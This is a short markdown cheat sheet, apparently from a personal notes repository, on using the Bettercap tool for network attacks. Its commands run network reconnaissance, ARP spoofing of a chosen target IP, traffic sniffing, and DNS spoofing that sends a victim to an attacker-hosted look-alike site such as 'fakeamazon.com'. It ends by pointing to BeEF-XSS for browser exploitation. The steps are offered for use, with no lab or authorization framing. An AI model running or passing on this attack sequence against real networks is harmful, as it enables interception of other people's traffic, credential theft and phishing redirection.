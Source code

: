 # Bettercap - Network Recon & MITM attack tool

>  Main website is found here: [https://bettercap.org]([https://bettercap.org](https://bettercap.org))

Launch bettercap:

```shell
sudo bettercap
```

Launch a network probe (recon):

```shell
net.probe.on
```

This also shows all the available devices connected to the network

To show more information, i.e IP addresses and MAC addresses, on all devices in the network in a list:

```shell
net.show
```

---

## Arp Spoofing Attack

_This is an attack that tricks a targeted device connecting to the internet that it's communication is being routed by the router but in other words it is routed from an attacking machine_

Find and set a target machine:

```shell
set arp.spoof.target <IP_ADDRESS_HERE>
```

Launch the arp spoofing attack:

```shell
arp.spoof on
```

This will enable forwarding of network packets to the attacking machine.

Sniff on the traffic from target's machine after launching the arp spoof attack: 

```shell
net.sniff on
```

---

## DNS Spoofing

First turn off the sniffing:

```shell
net.sniff off
```

Redirecting urls of targeted URLs:

```shell
set dns.spoof.domains <YOUR_TARGET_DOMAIN_HERE>
# fakeamazon.com
```

You can setup a website for the target to be redirected to from the attaking machine using Apache service or any other of your interest. 

> **Note that it will be redirected to the attacker's machine IP address.**

Launch the DNS spoof attack:

```shell
dns.spoof on
```

---

# Advance Attack with Beef-XSS

### **Beef-xss** - the browser expoitation framework

_This tool can launch more sophisticated attacks from the browser once the targeted machine has been redirected to the attacker's malicious website._
